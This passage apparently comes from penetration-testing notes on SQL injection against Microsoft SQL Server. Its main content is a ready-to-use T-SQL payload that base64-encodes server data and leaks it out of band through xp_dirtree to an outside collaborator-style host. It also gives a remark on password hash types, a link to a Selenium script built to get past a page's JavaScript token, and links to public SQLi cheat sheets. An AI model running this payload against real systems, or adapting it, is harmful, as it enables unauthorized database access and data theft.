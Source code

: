 Second Part
```bash
DECLARE @e varchar(1024); DECLARE @T varchar(1024);
SELECT @e = (SELECT SUBSTRING(CAST(SERVERPROPERTY('edition') as
varbinary(max)), LEN(CAST(SERVERPROPERTY('edition') as varbinary(max)))/2, LEN(CAST(SERVERPROPERTY('edition') as varbinary(max)))) FOR XML PATH(''), BINARY BASE64); 
SELECT @T = (SELECT REPLACE(@e, '=', '')); EXEC('master..xp_dirtree "\\'+@T+'.BRUPCOLLAB.net\egg$"');
```

### Password Cracker:
MSSQL 2000 and 2005 Hashes are both SHA1-based.  

### Scripts:
[Selenium SQLi automation](https://raw.githubusercontent.com/bleubyte/Selenium_sqli.py/main/main.py) - Needs more work Done, I had scripted this as a POC. The site was using some sort of Javascript token that would only accept clicking on submit in order to work. Burp/SQLIMAP failed
### Resources:
[Pentest Monkeys Cheat Sheet](https://pentestmonkey.net/cheat-sheet/sql-injection/mssql-sql-injection-cheat-sheet)
[Port Swigger SQL Cheat Sheet](https://portswigger.net/web-security/sql-injection/cheat-sheet)

### other resources add not included
[Sqlninja's MSSQL Cheat Sheet](http://sqlninja.sourceforge.net/sqlninja-howto.html#ss2.13)
